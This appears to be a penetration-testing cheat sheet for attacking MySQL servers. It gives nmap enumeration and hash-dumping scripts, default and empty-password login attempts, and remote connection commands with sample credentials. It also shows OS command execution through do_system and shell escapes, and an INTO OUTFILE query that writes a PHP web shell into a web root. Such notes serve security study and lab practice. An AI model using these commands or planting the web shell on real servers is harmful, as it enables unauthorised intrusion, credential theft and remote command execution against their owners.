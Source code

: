 # MySQL \[3306]

### Nmap

```
nmap -sV -Pn -vv --script=mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 <ip> -p 3306 ​ 
nmap -sV -Pn -vv --script=mysql* <ip> -p 3306 
```

### Local Access

if you gain access to target box and see mysql running , you can try to connect with it from target locally

```
mysql -u root 
# Connect to root without password

mysql -u root -p 
# A password will be asked
# Always test root:root credential

```

### Remote Access

```
mysql -h <Hostname> -u root

mysql -h <Hostname> -u root@localhost

mysql -u julio -pPassword123 -h 10.129.20.13
# MySQL - Connecting to the SQL Server

sqsh -S 10.129.203.7 -U julio -P 'MyPassword!' -h
# sqsh is alternative for myslq but in Linux

mssqlclient.py -p 1433 julio@10.129.203.7
# Impacket script for linux
```

> Specify the domain name or the hostname to use Windows Authentication. For local account use `SERVERNAME\\accountname` or `.\\accountname`&#x20;

### If running as root <a href="#if-running-as-root" id="if-running-as-root"></a>

If Mysql is running as root and you have acces, you can run commands:

```
mysql> select do_system('id');

mysql> \! sh
```

### Exploring database

<table><thead><tr><th width="267">Commands</th><th>Description</th></tr></thead><tbody><tr><td><code>show databases;</code></td><td>List all the databases.</td></tr><tr><td><code>use &#x3C;database>;</code></td><td>select the database from available databases.</td></tr><tr><td><code>show tables;</code></td><td>List all the tables.</td></tr><tr><td><code>describe &#x3C;table>;</code></td><td>To see what the structure of a table</td></tr><tr><td><code>SELECT &#x3C;column1>, &#x3C;column2> FROM &#x3C;table>;</code></td><td>print out all the vlaues from the table and columns specified.</td></tr><tr><td>SELECT * FROM &#x3C;table> WHERE &#x3C;column> = "&#x3C;str>";</td><td>list contents where search item is located.</td></tr></tbody></table>

[CVE-2012-2122](https://www.trendmicro.com/vinfo/us/threat-encyclopedia/vulnerability/2383/mysql-database-authentication-bypass)

`MySQL` default system schemas/databases:

* `mysql` - is the system database that contains tables that store information required by the MySQL server
* `information_schema` - provides access to database metadata
* `performance_schema` - is a feature for monitoring MySQL Server execution at a low level
* `sys` - a set of objects that helps DBAs and developers interpret data collected by the Performance Schema

## Command execution

`MySQL` doesn't have `xp_cmdshell` but we can write a code and find a way to execute it instead (ASP.NET, PHP)

**MySQL - Write Local File**

```shell-session
mysql> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
```

